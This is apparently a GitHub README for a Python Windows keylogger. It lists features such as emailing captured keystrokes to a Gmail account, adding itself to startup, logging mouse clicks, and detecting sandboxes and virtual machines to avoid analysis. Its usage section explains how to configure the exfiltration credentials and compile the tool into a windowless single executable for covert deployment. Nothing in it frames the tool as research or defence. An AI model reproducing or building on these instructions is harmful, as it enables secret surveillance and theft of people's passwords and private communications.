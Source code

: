 # Python Keylogger

This program is an object oriented windows keylogger written in python3.

## Installation

This program requires:
* [Python3](https://www.python.org/downloads/)
* [Pywin32](https://sourceforge.net/projects/pywin32/files/pywin32/)
* [Pynput](https://pypi.org/project/pynput/)
* [Pyinstaller](https://pypi.org/project/PyInstaller/)

1. Download the repository using github or git.
2. Install the modules above one by one or install them all at once by running `python -m pip install -r requirements.txt`

## Features
* Ability to send logs to any gmail account.
* Ability to store logs locally.
* Ability to add to startup.
* Ability to log special characters.
* Ability to capture window mouse clicks.
* Ability to check for sandboxie/virtual machine.
* And more...

## Usage

1. Open `src/main.py` in a text editor
2. Naviate to the main method:

```
if __name__ == "__main__":
    main = main(60, "c:/temp/log.txt")

    # main = main(180)
    # main = main(180, "", True, True, True, True)
    # main.override_gmail("email@gmail.com", "pass")

    main.start()
```

3. Modify the constructor arguments such as in the commented examples where arg1 is the time before exporting logs, arg2 is the path to export the logs to (if sending logs by email, set this to ""), and arg3-6 are bools for adding to startup, logging clicks, checking for virtual machine, and checking for sandboxie correspondingly.

4. Uncomment `override_gmail()` with an gmail account and password as corresponding arguments if sending logs by email.

5. Save the file and right-click while holding shift to open powershell window.
6. Enter `pyinstaller main.py --onefile --windowed` in the console to compile the python file as a single .exe.
